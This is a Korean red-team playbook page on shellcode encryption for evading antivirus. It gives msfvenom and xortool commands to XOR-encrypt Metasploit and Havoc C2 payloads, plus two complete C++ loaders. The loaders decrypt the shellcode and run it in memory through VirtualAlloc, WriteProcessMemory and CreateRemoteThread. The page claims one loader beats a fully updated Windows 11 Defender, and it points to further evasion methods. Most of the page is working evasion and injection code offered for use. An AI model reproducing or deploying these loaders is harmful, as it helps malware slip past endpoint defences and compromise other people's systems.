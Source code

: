 # 쉘코드 암호화

쉘코드 암호화는 로더(Loader)의 페이로드 부분에 들어가는 쉘코드를 실행 전 암호화하여 정적 분석을 우회하는 기법이다. 시중의 많은 C2 프레임워크와 툴들이 생성해내는 쉘코드는 시그니처 당하기 마련이다. 쉘코드를 생성해낼 때 마다 다른 쉘코드가 나오거나 특정 부분을 암호화 혹은 난독화 하는 방법이 있긴 하지만, 바뀔 수 없는 쉘코드의 특정 부분이 시그니처를 당하면 이마저도 무용지물인 경우가 많다. 유명한 예로는 미터프리터(Meterpreter) 쉘코드의 복호화 루틴 자체가 시그니처를 당한 경우다. 이 경우, 쉘코드를 아무리 바꿔봤자 가장 먼저 실행되고 또 중요한 복호화 루틴 자체가 시그니처를 당했기 때문에 정적 분석에서 걸리게 된다.

따라서 많은 악성코드나 오펜시브 시큐리티 툴들을 살펴보면 쉘코드 전체를 암호화 해놓는 기능을 제공한다. 암호화된 쉘코드는 프로세스 인젝션이나 셀프 인젝션을 할 때 런타임 중 복호화 되어 메모리에 쉘코드를 올린 뒤 실행된다.

쉘코드 암호화에는 XOR, RC4, 그리고 AES 암호화가 자주 사용된다. 단, AES의 경우 적용 방법에 따라 AES와 관련된 WinCrypt 윈도우API (`CryptDecrypt`, `CryptHashData`, `CryptDeriveKey` 등) 를 사용하는 경우 IAT에 흔적이 남을 수 있으니 조심해야 한다. 물론 IAT 난독화나 Run-time Dynamic Linking 등의 기법을 통해 흔적을 없앨수도 있다.

### 실습 - 메타스플로잇

실습에서는 간단하게 메타스플로잇 페이로드 빌드 툴인 `msfvenom` 을 이용해 쉘코드 XOR 암호화를 진행해본다. 개념 증명용 쉘코드에 xor 암호화를 적용시킨다.

```
msfvenom -p windows/x64/messagebox text=redteamplaybook title=rtp exitfunc=thread --encrypt xor --encrypt-key redteamplaybook -f c -o x64-msgbox-xor.c
```

이후 나온 쉘코드를 다음의 인젝션 코드를 이용해 복호화 한 뒤 사용한다.

<details>

<summary>encShellcodeCRT.cpp</summary>

```
/*
	Red Team Playbook - Shellcode decryption + CreateRemoteThread example 
	Credits to all open-source authors out there 
*/

#include <iostream>
#include <windows.h>

// credit: Sektor7 RTO Malware Essential Course 
void XOR(unsigned char* data, size_t data_len, char* key, size_t key_len) {
	int j;

	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}

int main()
{
	// msfvenom -p windows/x64/exec CMD="calc.exe" --encrypt xor --encrypt-key redteamplaybook -f c
	unsigned char buf[] = < 쉘코드 >

	// VirtualAlloc on self 
	HANDLE hProc = GetCurrentProcess();
	LPVOID hAlloc = (LPVOID)VirtualAlloc(NULL, sizeof(buf), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (hAlloc == NULL) {
		printf("[-] VirtualAlloc failed: %d\n", GetLastError());
		return 1;
	}

	// XOR decrypt 
	char key[] = "redteamplaybook";
	XOR(buf, sizeof(buf), key, sizeof(key));

	// WriteProcessMemory on self 
	SIZE_T* lpNumberOfBytesWritten = 0;
	if (!WriteProcessMemory(hProc, hAlloc, (LPVOID)buf, sizeof(buf), lpNumberOfBytesWritten)) {
		printf("[-] WPM failed: %d\n", GetLastError());
		return 1;
	}

	// CRT and execute the shellcode 
	DWORD threadId = 0; 
	HANDLE hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)hAlloc, NULL, 0, (LPDWORD)(&threadId));
	if (hThread == NULL) {
		printf("[-] CRT failed: %d\n", GetLastError());
		return 1; 
	}
	
	// WaitForSingleObject 
	WaitForSingleObject(hThread, 1000);

	return 0; 
}
```

</details>

### 실습 - 하복 (Havoc) 프레임워크

이번 실습은 오픈소스 C2 프레임워크인 하복 (Havoc) 프레임워크를 이용해 진행한다. 먼저 리스너를 생성한 뒤, 쉘코드 페이로드를 만들어 파일시스템에 저장한다. 그 뒤 파이썬 툴인 `xortool` 을 설치하고 `xortool-xor` 를 이용해 파일을 XOR 암호화 한다.

```
pip3 install xortool 
xortool-xor -f demon-raw.bin -s redteamplaybook > demon-xor.bin
```

하복 프레임워크의 경우 C 소스코드 형태의 쉘코드를 지원하지 않고, 오로지 binary 형태만 지원하기 때문에  이를 프로세스 인젝션 코드에 직접적으로 삽입할 수는 없다. 대신 PE 파일안에 리소스 (Resource) 형태로 쉘코드를집어넣어 런타임 중 불러오고, 복호화한 뒤, 인젝션을 실행하면 된다. 예제 소스코드는 다음과 같다.

<details>

<summary>rsrcCRT.cpp</summary>

```
#include <Windows.h>
#include <cstdio>
#include <iostream>
#include "resource2.h"

// credit: Sektor7 RTO Malware Essential Course 
void XOR(unsigned char* data, size_t data_len, char* key, size_t key_len) {
	int j;

	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}

int main()
{
	// Resource related API calls 
	HRSRC scRsrc = FindResource(NULL, MAKEINTRESOURCE(IDR_DEMON_BIN1), L"DEMON_BIN");
	if (scRsrc == NULL) {
		printf("[-] FindResource failed: %d\n", GetLastError());
		return 1;
	}
	DWORD scSize = SizeofResource(NULL, scRsrc);
	HGLOBAL scRsrcData = LoadResource(NULL, scRsrc);
	unsigned char* buf = (unsigned char*)malloc(scSize);
	memcpy(buf, scRsrcData, scSize);

	// VirtualAlloc on self 
	HANDLE hProc = GetCurrentProcess();
	LPVOID hAlloc = (LPVOID)VirtualAlloc(NULL, scSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (hAlloc == NULL) {
		printf("[-] VirtualAlloc failed: %d\n", GetLastError());
		return 1;
	}

	// XOR Decrypt 
	char key[] = "redteamplaybook";
	XOR(buf, scSize, key, sizeof(key));

	// WriteProcessMemory on self 
	SIZE_T* lpNumberOfBytesWritten = 0;
	if (!WriteProcessMemory(hProc, hAlloc, (LPVOID)buf, scSize, lpNumberOfBytesWritten)) {
		printf("[-] WPM failed: %d\n", GetLastError());
		return 1;
	}

	// CRT and execute the shellcode 
	DWORD threadId = 0;
	HANDLE hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)hAlloc, NULL, 0, (LPDWORD)(&threadId));
	if (hThread == NULL) {
		printf("[-] CRT failed: %d\n", GetLastError());
		return 1;
	}

	// WaitForSingleObject 
	WaitForSingleObject(hThread, 1000);

	// Self injection, so this process needs to be running as well. Easy and dirty way to do that. 
	Sleep(99999999);

	return 0;
}
```



</details>

실행해보면 최신 윈도우 11 (22H2) 업데이트를 한 디펜더를 우회한 뒤 성공적으로 쉘코드를 실행한다.

<figure><img src="../.gitbook/assets/rsrcInj-demo.gif" alt=""><figcaption></figcaption></figure>

### 추가적인 문제점&#x20;

쉘코드 암호화 기법을 사용하면 자연스럽게 생겨나는 추가적인 문제점들이 있다. 이 페이지에서는 다루지 않겠지만, 추후 다른 페이지들에서 이 우회 방법들에 대해 서술한다.&#x20;

1. 엔트로피의 증가: 대부분의 프로그램은 특정 부분이 암호화된 채로 존재하지 않는다. 쉘코드가 크면 클 수록 프로그램 내의 암호화 된 부분이 높기 때문에 전체적인 엔트로피의 증가로 이어진다. 방어자들은 정적 분석을 통해 특정 엔트로피 수치 이상의 프로그램을 발견하면 "수상한 프로그램" 이라고 의심한다. -> 이는 **엔트로피 조절** 기법으로 대처할 수 있다.
2. 복호화 키: 쉘코드 복호화 시 비대칭 암호화는 공격자의 공개키를 항상 구할 수 있다는 가정을 할 수 없기에 사용하지 않는다. 그러면 대칭키를 툴의 어딘가에다가 저장 해놔야할텐데, 그러면 방어자가 그 키를 추출해 쉘코드를 복호화할 수 있게 된다. -> 이는 **Environmental Keying** 기법으로 대처할 수 있다.
3. 메모리상의 평문 쉘코드: 정적 분석은 피했지만, 툴의 실행 이후 동적 분석을 하며 메모리상의 평문 쉘코드를 추출한다면 결국 쉘코드 암호화의 의미가 없어지게 된다. -> 이는 Ekko 와 같은 **인-메모리 쉘코드 Sleep/obfuscation/encryption 기법**으로 대처할 수 있다.

